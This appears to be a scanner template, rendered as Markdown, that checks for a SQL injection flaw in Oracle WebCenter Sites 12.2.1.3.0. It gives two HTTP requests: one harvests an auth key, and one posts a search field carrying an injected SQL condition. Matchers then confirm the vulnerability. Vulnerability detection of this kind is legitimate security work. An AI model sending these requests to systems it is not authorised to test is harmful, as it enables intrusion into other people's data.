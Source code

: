 # Oracle Fusion Middleware WebCenter Sites 12.2.1.3.0 - SQL Injection
## Description
- The Oracle WebCenter Sites component of Oracle Fusion Middleware 12.2.1.3.0 is susceptible to SQL injection via an easily exploitable vulnerability that allows low privileged attackers with network access via HTTP to compromise Oracle WebCenter Sites. Successful attacks of this vulnerability can result in unauthorized read access to a subset of Oracle WebCenter Sites accessible data.
- severity - medium
- tags - cve,cve2019,oracle,wcs,sqli
## Requests
### Step - 1
```
GET /cs/Satellite?pagename=OpenMarket/Xcelerate/Admin/WebReferences HTTP/1.1
Host: {{Hostname}}

```
### Step - 2
```
POST /cs/ContentServer HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

_authkey_={{authkey}}&pagename=OpenMarket%2FXcelerate%2FAdmin%2FWebReferences&op=search&urlsToDelete=&resultsPerPage=25&searchChoice=webroot&searchText=%27+and+%271%27%3D%270+--+

```
### Matchers

**Type - word**
- words
    1. value='&#39; and &#39;1&#39;=&#39;0 --
    2. Use this utility to view and manage URLs
- condition - and

**Type - status**
- status
    1. 200
### Extractors

**Type - regex**
- name - authkey
- part - body
- internal - True
- group - 1
- regex
    1. NAME='_authkey_' VALUE='([0-9A-Z]+)'>

---